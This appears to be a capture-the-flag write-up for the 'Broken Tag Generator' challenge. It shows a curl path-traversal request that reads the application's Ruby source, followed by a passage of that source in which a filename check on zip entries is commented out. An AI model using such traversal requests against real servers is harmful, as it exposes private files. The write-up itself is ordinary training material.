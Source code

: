 

# Objective 8 Broken Tag Generator
There are multiple ways to achieve the challenge. RCE would be a nice one, the following is just the easiest for lazy guys ;-)
* https://tag-generator.kringlecastle.com/hh to provoce the error-output

```bash
Something went wrong!
Error in /app/lib/app.rb: Route not found
```
* curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb will fetch the sourcecode
```ruby
# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER

require 'rubygems'

require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'

require 'zip'
require 'sinatra/cookies'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2*5 # 5mb

# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
def h(html)
  CGI.escapeHTML html
end

def handle_zip(filename)
  LOGGER.debug("Processing #{ filename } as a zip")
  out_files = []

  Zip::File.open(filename) do |zip_file|
    # Handle entries one by one
    zip_file.each do |entry|
      LOGGER.debug("Extracting #{entry.name}")

      if entry.size > MAX_SIZE
        raise 'File too large when extracted'
      end

      if entry.name().end_with?('zip')
        raise 'Nested zip files are not supported!'
      end

      # I wonder what this will do? --Jack
      # if entry.name !~ /^[a-zA-Z0-9._-]+$/
```
